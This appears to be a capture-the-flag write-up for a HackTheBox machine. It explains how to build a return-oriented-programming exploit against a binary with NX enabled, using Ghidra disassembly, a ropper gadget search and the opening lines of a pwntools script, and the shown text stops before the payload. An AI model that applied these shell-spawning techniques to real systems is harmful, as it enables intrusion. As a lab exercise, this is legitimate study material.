 ```
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```
As we can see the the binary has the NX bit set: this means that the stack is not executable.  
In order to overcome this, we need to use a exploitation-technique known as “ROP - Return Oriented Programming”.  
Since NX bit is set, we can’t jump into the stack to execute our code. But with ROP, we can still jump around in the existing code.  
The only thing we need to do is to find some special instructions within the application, chain them together and hijack the execution flow of the application.  
If we inspect the main function, we can see that in main there is a system call, and the arguments are passed to system via the RDI registes, so, if we can overwrite RDI with "/bin/sh" we will spawn a shell execution:
```
00401167 48 8d 3d        LEA        RDI,[s_/usr/bin/uptime_00402008]                 = "/usr/bin/uptime"
         9a 0e 00 00
0040116e e8 cd fe        CALL       <EXTERNAL>::system                               int system(char * __command)
         ff ff
```
If we inspect available functions in ghidra, we can see a ```test()``` function that is doing the following:  
```
**************************************************************
*                                                            *
*  FUNCTION                                                  *
**************************************************************
undefined __stdcall test(void)
undefined         AL:1           <RETURN>
test                                            XREF[3]:     Entry Point(*), 00402060,
                                                             00402108(*)  
00401152 55              PUSH       RBP
00401153 48 89 e5        MOV        RBP,RSP
00401156 48 89 e7        MOV        RDI,RSP
00401159 41 ff e5        JMP        R13
```
and it is actually moving the value of the base pointer RBP into the stack pointer RSP (as default when loading a function) and then RSP into RDI and it is jumping to R13.  
Now if we overwrite R13 with the address of system() we will be able to execute /bin/sh (since we already loaded it into BP->SP->RDI).  
To do this let's search for in-memory gadgets:  
```
gef➤  ropper --search "pop r13"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r13

[INFO] File: /root/Documents/HTB/Boxes/Safe/myapp
0x0000000000401206: pop r13; pop r14; pop r15; ret;
```
As we can see, at the address ```0x0000000000401206``` we have a pop r13 followed by two other pops which we can fill with null bytes (0x0).  
now, we should have everything we need to craft the exploit:  
```
from pwn import *

context(terminal=['tmux','new-window']) # Default terminal used by pwnlib.util.misc.run_in_new_terminal().
                         # Can be a string or an iterable of strings.
```